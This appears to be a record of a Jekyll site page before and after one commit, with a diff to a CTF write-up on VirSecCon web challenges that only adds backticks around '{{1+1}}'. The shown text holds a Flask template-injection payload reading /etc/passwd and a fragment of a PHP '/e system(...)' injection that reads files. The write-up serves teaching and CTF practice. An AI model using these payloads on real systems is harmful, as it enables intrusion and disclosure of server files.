

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-virseccon-web-challenges-ctf.md, in a window 1280 px wide and 900 px high, scrolled down 2780 px. Shown: the part 113-449 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2020-04-5-virseccon-web-challenges-ctf.md
+++ b/_posts/2020-04-5-virseccon-web-challenges-ctf.md
@@ -126,7 +126,7 @@ by adding in the filter field `/e system("cat flag_name_dont_guess_plz index.php
 
 ### Mask : Web Challenge
 
-By testing  {{1+1}}, we confirm that we are using `flask` framework. Let try to injection `python` code to read local files
+By testing  `{{1+1}}`, we confirm that we are using `flask` framework. Let try to injection `python` code to read local files
 
 ```python
 {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
````
